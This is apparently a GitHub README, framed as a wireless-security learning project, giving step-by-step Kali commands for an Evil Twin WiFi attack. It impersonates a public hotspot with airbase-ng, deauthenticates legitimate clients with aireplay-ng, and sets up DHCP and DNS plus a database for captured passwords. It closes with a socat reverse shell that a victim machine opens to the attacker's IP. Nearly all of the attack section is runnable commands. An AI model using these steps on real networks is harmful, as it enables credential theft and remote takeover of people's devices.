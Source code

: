 # 前言  ![Awesome](https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg)

仅供参考,此project为学习之用,了解破解流程,学习无线安全

__author__ == "US579"

The recording file is in the link below:

https://drive.google.com/open?id=1EdF8AQh95s0FsDAZry5Uj2Y-TkjsgGOC

system : kali linux

software : aiicrack-ng dnsmasq
## Task2 

Evil Twin AP Attack: Set up a fake AP impersonating the target AP, and force target AP users to connect to it.

### 1. Start wireless card monitor mode 

```
airmon-ng start wlan0
```

(wlan0 is the port of the wireless network card,it can be check by inputing `ifconfig` or `iwconfig`)

### 2. Checking wireless AP(access point)

```
airodump-ng wlan0mon
```
(the prot been changed to wlan0mon after starting monitor mode)

this command can list all the information about AP ,Station and the traffic between them

you can see the name in the table 

BSSID : the MAC address of the AP

PWR : Signal strength

Beacons : one of the management frames, theo purpose of it is to transmit periodically, they serve to announce the presence of a wireless LAN and to synchronise the members of the service set.

Data : the throughput of the AP 

CH : channel

ENC : Encrept protocol 

ESSID : the name of AP

#### in case the channel will change over time,set the stable channel 
```
airodump-ng -c 11 -i wlan0 --bssid C4:71:54:23:2A:AE 
```

-c : channel number ,in this case , i choose 11

-i : choose the card to monitor 

--bssid : the MAC address of target AP

this command only show the traffic between client and target AP

## 3. Set up a fake AP impersonating the target AP

the client will be disconnected from the AP we input above 

```
airbase-ng -a AA:AA:AA:AA:AA:AA --essid 'Starbucks' -c 11 wlan0mon
```

-a :set up MAC address (this is optional)

-essid : the name of AP ,this should be same as the target WI-FI

-c : channel 11 (this is optional)

## 4. Deauth target by using aireplay-ng
```
aireplay-ng -0 0 -a C4:71:54:23:2A:AE -c EC:D0:9F:87:DD:6F  wlan0mon
```

-0 : Conflict attack mode , follow by the attack times , 0 represent all the times

-a : the MAC of AP  , this can be captured from the `airodump-ng wlan0mon`

-c : the client that connect to AP legally. if not spcecif which client , it will disconnect all the clients which connect to this WI-FI



## 5. Setup DNS and DHCP by using dnsmasq 

#### Dnsmasq provides Domain Name System (DNS) forwarder, Dynamic Host Configuration Protocol (DHCP) server, router advertisement and network boot features for small computer networks, created as free software.

1.Install dnsmasq in Kali Linux

```
apt-get update
apt-get install dnsmasq -y
```
This will update the cache and install latest version of dhcp server in your Kali Linux box.

Now all the required tools are installed. We need to configure apache and the dhcp server so that the access point will 

allocate the IP address to the client/victim and the client would be able to access our webpage remotely.

Now we will define the IP range and the subnet mask for the DHCP server.

2.Configure dnsmasq conf file 

Create a configuration file for dnsmasq using `vim` or your favorite text editor and add the following code.

```
vi ./conf/dnsmasq.conf
```
dnsmasq.conf

```
interface=at0         
dhcp-range=10.0.0.10,10.0.0.250,12h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-queries
log-dhcp
listen-address=127.0.0.1
```

```
Tip: Replace at0 with wlan0 everywhere when hostapd is used for creating an access point
```

Parameter Breakdown
```
dhcp-range=10.0.0.10,10.0.0.250,12h:  Client IP address will range from 10.0.0.10 to 10.0.0.250 and default lease time is 12 hours.
dhcp-option=3,10.0.0.1:  3 is code for Default Gateway followed by IP of D.G i.e. 10.0.0.1
dhcp-option=6,10.0.0.1:  6 for DNS Server followed by IP address
```



## Another method for setup DHCP server and Mysql(for password caputre) in kali (optional)

1. install DHCP server

```
sudo apt install -y isc-dhcp-server
```
2.modify DHCP conf file

type the command below in your terminal

```
vi /etc/dhcp/dhcpd.conf
```
change the content or uncomment the content as follow

```
authoritative;
default-lease-wime 600;
max-lease-time 7200;
subnet 192.168.1.128 netmask 255.255.255.128 {
option subnet-mask 255.255.255.128;
option broadcast 192.168.1.255;
option routers 192.168.1.129;
option domain-name-servers 8.8.8.8;
range 192.168.1.130 192.168.1.140;
}
```
launch the DHCP server ,

in kali , use command,

```
 dhcpd -cf /etc/dhcp/dhcpd.conf
```

after that ,type command below

start web server Apache

```
/etc/init.d/apache2.start
``` 
 
4.install mysql-server for storing captured password
 
```
apt-get install mariadb-server
```
Actually, for Kali Linux the apt-get install mysql-server command will not work, but try with apt-get install mariadb-server.
 
This will install MySQL
 
after installation ,type
 
```
/etc/init.d/mysql start
```



###  Reverse shell

1. install socat 

Type the command in your terminal

```
apt-get install socat
```
2. in victim machine
in this case 

VICTIM IP：192.168.1.107

KALI IP：192.168.1.102

Type command

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.102:4444
```
Just change the victimIP with your target IP

and in the attcker machine which is kali

Type command

```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

## Authors

US579 


